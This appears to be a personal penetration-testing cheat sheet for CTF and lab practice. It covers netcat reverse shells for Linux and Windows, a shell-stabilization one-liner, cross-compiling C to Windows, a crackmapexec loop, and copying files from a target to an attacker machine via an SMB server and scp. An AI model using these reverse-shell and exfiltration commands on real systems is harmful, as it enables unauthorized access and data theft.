 # Misc: References, and other stuff

excellent summary of SSH tunneling [here](https://tryhackme.com/room/lateralmovementandpivoting)



## Shell catching, and stabilization

set up listener with: 
```
nc –nvlp ${LPORT} 
```

now, from our Linux target box we can do:

```
nc $LHOST $LPORT -e /bin/sh
```
or Windows:

```
nc.exe $LHOST $LPORT -e cmd.exe
```
Afterwards, stabilize with [this](https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal)

Gain TTY with `python3 -c 'import pty; pty.spawn("/bin/bash")'` or `python3 -c 'import pty; pty.spawn("/bin/sh")'`

## Revshells

[revshells.com](https://www.revshells.com/)

## Cross-compiling C on kali to windows

mingw-w64 is used to cross compile c files to windows exe files.
This can look something like:

`i686-w64-mingw32-gcc some-c-file.c -o out-file.exe -l ws2_32`

Where `-l ws2_32` tells `mingw32-gcc` to include the `ws2_32` DLL in the final executable with static linking. 


## Inline for loop

We want to execute some command for all machines in the file machines.txt. This can be done like so:
```
for machine in $(cat machines.txt); do; crackmapexec smb $machine ...; done;
```
(note, this is just an example, as crackmapexec in fact supports jut getting the machine IPs from a machines.txt file natively).


## File transfer


### From Windows Target to Attack box

If you find yourself on a windows shell and want to transfer files from the target to the attack box,
you can start an SMB server on the attackbox:

```
impacket-smbserver SHARE $(pwd) -smb2support -user ${SOME_USERNAME} -password ${SOME_PW}
```
(Note that this makes a public server. Only without setting user/password in CTF scenarios in private networks).


If you set the password, as seen above, from the Windows machine, mount the share like so:

```
net use S: \\${ATTACKER_IP}\SHARE /user:${SOME_USERNAME} ${SOME_PW} /persistent:yes
```

### SCP to copy

Assuming you have ssh started on your kali machine, we can do:

```
scp path/to/file ${USER}@${ATTACKER_IP}:/full/path/to/dest
```
or the other way:

```
scp ${USER}@${ATTACKER_IP}:/full/path/to/file path/to/dest
```

Works on modern windows boxes too, but requires proper interactive shell to work.


## Investigating executables and binaries

When investigating suspicious executables and binaries, remember to run both `exiftool` and `strings` on them.
Sometimes, clues are hidden in there.

